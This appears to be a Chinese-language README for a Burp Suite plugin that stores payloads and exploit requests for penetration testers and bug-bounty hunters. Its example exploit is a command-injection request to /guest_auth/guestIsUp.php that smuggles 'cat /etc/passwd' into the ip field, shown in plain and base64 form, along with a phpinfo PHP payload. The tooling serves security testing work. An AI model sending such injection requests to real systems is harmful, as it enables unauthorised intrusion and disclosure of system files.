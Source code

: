 ## 哆啦A梦的四次元口袋



### 前言

1、在渗透测试或挖 SRC 的时候每次都需要在笔记中复制一些 Payload 或 Webshell 内容觉得太麻烦了，所以打算 **抄一个** Burpsuite 插件，直接在 Burpsuite 中插入内容就简单多了。

2、在复现一些Http 请求的漏洞，每次都需要在笔记复制exp或写个简单的 python 脚本觉得太麻烦了，如果在 Burpsuite 中直接修改请求包就简单多了，所以就命名该Burpsuite 插件为 **哆啦A梦的四次元口袋** 吧。



### 使用

![1](./images/1.gif)

加载插件会在 Burpsuite 目录下新建了一个目录和三个文件

```
DAM_Config:
|_exp.yaml
|_payload.yaml
|_tmp.txt
```

可以使用 sublime text 来修改 exp.yaml 和 payload.yaml （**yaml 语法**），现在主要写了新增的功能。

#### exp.yaml 文件

获取 host 和 Cookie **修改整个数据包**（如果 Repeater 没有 Target 就使用不了）

host 和 cookie 的位置使用占位符 `%s`  ,  如果是未授权的就不需要 cookie。

```
POST /guest_auth/guestIsUp.php HTTP/1.1 
Host: %s
Connection: close Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 
Cookie: %s
Content-Type: application/x-www-form-urlencoded 
Content-Length: 56 

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后把 exp   **Base64编码**

```
UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```



#### payload.yaml 文件

该文件是把 **Payload 插入到数据包中**

```
<?php phpinfo();?>
```

需要把 payload  Base64 编码

```
PD9waHAgcGhwaW5mbygpOz8+
```

更多玩法自己挖掘

![1](./images/1.png)

